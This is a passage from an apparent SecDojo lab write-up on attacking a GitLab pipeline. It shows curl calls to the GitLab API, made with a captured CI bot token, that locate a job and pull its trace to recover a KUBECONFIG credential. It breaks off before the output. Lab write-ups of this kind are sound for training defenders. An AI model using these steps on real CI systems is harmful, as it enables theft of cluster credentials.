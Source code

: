 This triggers the pipeline on the `master` branch.

#### Capturing the Pipeline Output

To retrieve the `KUBECONFIG` variable from the pipeline's output, we need to extract the job trace. We use the following API calls to obtain the necessary IDs and the job trace:

1. **Find the project ID for k8s-deployments:**
```bash
curl --header "PRIVATE-TOKEN: <ci-bot-token>" "http://<gitlab-ip>/api/v4/projects?search=k8s-deployments" | jq -r '.[] | "\(.id) \(.name)"'
```

![secdojo](./images/get-project-id.png)

2. **Check the pipeline status and its ID:**
```bash
curl --header "PRIVATE-TOKEN: <ci-bot-token>" "http://<gitlab-ip>/api/v4/projects/<project-id>/pipelines" | jq -r '.[] | "\(.id) \(.status) \(.ref)"' | head -n 3
```

![secdojo](./images/get-pipeline-status-and-id.png)

We identify the pipeline ID `6` for the `master` branch.

3. **Find the job ID:**
```bash
curl --header "PRIVATE-TOKEN: <ci-bot-token>" "http://<gitlab-ip>/api/v4/projects/<project-id>/pipelines/<pipeline-id>/jobs" | jq -r '.[] | "\(.id) \(.name)"'
```

![secdojo](./images/get-job-id.png)

4. **Retrieve the job trace:**
```bash
curl --header "PRIVATE-TOKEN: <ci-bot-token" "http://<gitlab-ip>/api/v4/projects/<project-id>/jobs/<job-id>/trace"
```

**Output (summarized):**
